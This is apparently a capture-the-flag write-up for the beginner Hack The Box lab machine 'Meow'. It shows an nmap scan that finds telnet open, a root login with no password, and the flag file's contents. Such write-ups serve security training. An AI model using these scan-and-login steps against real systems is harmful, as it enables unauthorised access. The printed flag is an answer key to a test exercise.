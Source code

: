```yaml
---
Title: Meow
Difficulty: very easy
Tags: Linux, Network, Account Missconfiguration
Tools: nmap
Author: sl0th0x87
Date: 2022/01/10
---
```

# Meow

## General informations
* IP Attack Machine: 10.10.14.39
* IP Target Machine: 10.129.1.17
* Operating System: Linux

## NMAP scan

Make a portscan over all ports with service detecion\
Enable NMAP scripts and disable ping scan
```bash
sudo nmap -sV -sC -Pn -p- 10.129.1.17
```

Output:
```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-10 15:51 CET
Nmap scan report for 10.129.1.17
Host is up (0.042s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.70 seconds
```

### Open ports
* 23/tcp open  telnet  Linux telnetd

## Telnet
```bash
telnet 10.129.1.17
```

Output:
```bash
Trying 10.129.1.17...
Connected to 10.129.1.17.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
```
Try to login with user 'root'\
Wow, we are in. Telnet with root access and no password
```
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 10 Jan 2022 03:07:27 PM UTC

  System load:  0.45              Processes:             138
  Usage of /:   41.7% of 7.75GB   Users logged in:       0
  Memory usage: 4%                IPv4 address for eth0: 10.129.1.17
  Swap usage:   0%

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Jan 10 15:06:57 UTC 2022 on pts/0
root@Meow:~# 
```

Show files in root home directory
```bash
root@Meow:~# ls -l
total 8
-rw-r--r-- 1 root root   33 Jun 17  2021 flag.txt
drwxr-xr-x 3 root root 4096 Apr 21  2021 snap
```
Get root flag
```bash
root@Meow:~# cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
```

Congratulations! You got the machine!
